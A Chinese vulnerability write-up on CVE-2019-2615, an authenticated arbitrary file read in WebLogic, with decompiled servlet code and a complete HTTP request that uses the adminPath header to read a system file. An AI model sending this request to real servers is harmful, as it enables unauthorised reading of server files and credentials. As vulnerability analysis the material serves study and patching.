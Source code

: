 （CVE-2019-2615）Weblogic 任意文件读取漏洞
==========================================

一、漏洞简介
------------

攻击者可以在已知用户名密码的情况下读取WebLogic服务器中的任意文件。

二、漏洞影响
------------

Weblogic 10.3.6.0Weblogic 12.1.3.0Weblogic 12.2.1.2Weblogic 12.2.1.3

三、复现过程
------------

### 漏洞分析

该功能的关键代码在
`weblogic.management.servlet.FileDistributionServlet`的doGet()方法中：

    public void doGet(final HttpServletRequest var1, final HttpServletResponse var2) throws ServletException, IOException {
        AuthenticatedSubject var3 = this.authenticateRequest(var1, var2);
        if(var3 != null) {
            final String var4 = var1.getHeader("wl_request_type");
            if(var3 != KERNEL_ID) {
                AdminResource var5 = new AdminResource("FileDownload", (String)null, var4);
                if(!this.am.isAccessAllowed(var3, var5, (ContextHandler)null)) {
                    ManagementLogger.logErrorFDSUnauthorizedDownloadAttempt(var3.getName(), var4);
                    var2.sendError(401);
                    return;
                }
            }

            try {
                if(debugLogger.isDebugEnabled()) {
                    debugLogger.debug("---- >doGet incoming request: " + var4);
                }

                if(var4.equals("wl_xml_entity_request")) {
                    this.doGetXMLEntityRequest(var1, var2);
                } else if(var4.equals("wl_jsp_refresh_request")) {
                    this.doGetJspRefreshRequest(var1, var2);
                } else if(var4.equals("file")) {
                    this.doGetFile(var1, var2);
                } else if(!var4.equals("wl_init_replica_request") && !var4.equals("wl_file_realm_request") && !var4.equals("wl_managed_server_independence_request")) {
                    var2.addHeader("ErrorMsg", "Bad request type");
                    String var10 = Utils.encodeXSS(var4);
                    var2.sendError(400, "Bad request type: " + var10);
                    ManagementLogger.logBadRequestInFileDistributionServlet(var4);
                } else {
                    ......
                    ......
                    }
                }
            } catch (Exception var9) {
                if(!Kernel.isInitialized()) {
                    throw new AssertionError("kernel not initialized");
                }

                ManagementLogger.logErrorInFileDistributionServlet(var4, var9);
            }

        }
    }

代码也比较简单，先取request中header的参数\"wl\_request\_type\"的值，然后判断如果该值等于"wl\_xml\_entity\_request"、"wl\_jsp\_refresh\_request"、"file"\...\...则分别调用各自的方法，进入下一步判断。我们看一下如果wl\_request\_type的值为"wl\_jsp\_refresh\_request"，进入doGetJspRefreshRequest()方法。我们跟入doGetJspRefreshRequest()方法：

    private void doGetJspRefreshRequest(HttpServletRequest var1, HttpServletResponse var2) throws IOException {
         String var3 = var1.getHeader("adminPath");

         try {
             FileInputStream var4 = new FileInputStream(var3);

             try {
                 var2.setContentType("text/plain");
                 var2.setStatus(200);
                 this.returnInputStream(var4, var2.getOutputStream());
             } finally {
                 var4.close();
             }

         } catch (IOException var10) {
             String var5 = "I/O Exception getting resource: " + var10.getMessage();
             var2.addHeader("ErrorMsg", var5);
             var2.sendError(500, var5);
         }
     }

doGetJspRefreshRequest()方法中的"adminPath"也是request中的header参数，我们在Post包中传入要读取的文件。进入该方法中，直接使用FileInputStream类进行文件读取，故造成了所谓的"任意文件读取"漏洞。

### 漏洞复现

    GET /bea_wls_management_internal2/wl_management HTTP/1.1
    Host: www.0-sec.org:7001
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    username:weblogic
    password:admin123456
    wl_request_type:wl_jsp_refresh_request
    adminPath:c:\windows\win.ini
    Upgrade-Insecure-Requests: 1

![M\~P\`JFB4OPB3JUN7FJ\_F.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-2615)Weblogic任意文件读取漏洞/media/rId26.png)
